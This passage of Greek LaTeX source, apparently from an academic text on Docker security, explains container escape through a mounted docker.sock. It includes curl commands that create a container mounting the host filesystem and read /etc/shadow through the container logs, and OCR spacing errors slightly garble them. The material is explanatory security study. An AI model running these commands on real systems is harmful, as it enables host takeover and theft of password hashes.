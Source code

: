 Παροχή πρόσβασης κοντέινερ στο \textlatin{API} (προσαρτώντας τo
\textlatin{socket} ως \textlatin{volume}) είναι μια κοινή πρακτική, επειδή
επιτρέπει στα κοντέινερ να παρακολουθούν και να αναλύουν
άλλα κοντέινερ. Εάν το \texttt{\textlatin{/var/run/docker.sock}} έχει
προσαρτηθεί ως \textlatin{volume} σε ένα κοντέινερ, το κοντέινερ έχει πρόσβαση
στο \textlatin{API} (ακόμα κι αν είναι το \textlatin{socket} τοποθετημένο ως
\textlatin{volume} μόνο για ανάγνωση \cite{The-Dangers-Of-Docker-Sock}
\cite{Read-Only-Docker-Socket-Tweet} \cite{Read-Only-Docker-Socket-Hackernews}).
Αυτό σημαίνει ότι η διαδικασία μέσα στο κοντέινερ έχει πλήρη πρόσβαση στο
\textlatin{Docker} στον κεντρικό υπολογιστή. Αυτό μπορεί να χρησιμοποιηθεί για
να διαφύγει κανείς από το κοντέινερ, επειδή το κοντέινερ μπορεί να δημιουργήσει
ένα άλλο κοντέινερ με αυθαίρετα \textlatin{volumes} και εντολές. Είναι ακόμη
δυνατό να δημιουργηθεί ένα \textlatin{interactive shell} μέσα σε άλλα κοντέινερς
\cite{Escape-Socket-Shell}.

Ας υποθέσουμε ότι θέλουμε να βρούμε τον κατακερματισμένο κωδικό πρόσβασης ενός
χρήστη που ονομάζεται \textlatin{admin} στον κεντρικό υπολογιστή. Μπορούμε να
εκτελέσουμε εντολές σε ένα κοντέινερ με
\texttt{\textlatin{/var/run/docker.sock}} προσαρτημένο ως \textlatin{volume}.
Χρησιμοποιούμε το \textlatin{API} για να ξεκινήσουμε ένα άλλο \textlatin{Docker}
κοντέινερ (στον κεντρικό υπολογιστή), που έχει πρόσβαση στον κατακερματισμένο
κωδικό πρόσβασης (που βρίσκεται στο \texttt{\textlatin{/etc/shadow}}).
Διαβάζουμε το αρχείο κωδικών πρόσβασης, αναλύοντας τα αρχεία καταγραφής
(\textlatin{logs}) του κοντέινερ που έχουμε μόλις δημιουργήσει. \\

\texttt{\textlatin{(host)\$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash}}

\texttt{\textlatin{(cont)\# curl -XPOST -H "Content-Type: application/json" --unix -socket /var/run/docker.sock -d '\{"Image":"ubuntu:latest"," Cmd":["cat", "/host/etc/shadow"],"Mounts":[\{"Type":"bind"," Source":"/","Target":"/host"\}]\}' "http://localhost/containers/create?name=escape"}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(cont)\# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"}}

\texttt{\textlatin{(cont)\# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"}}

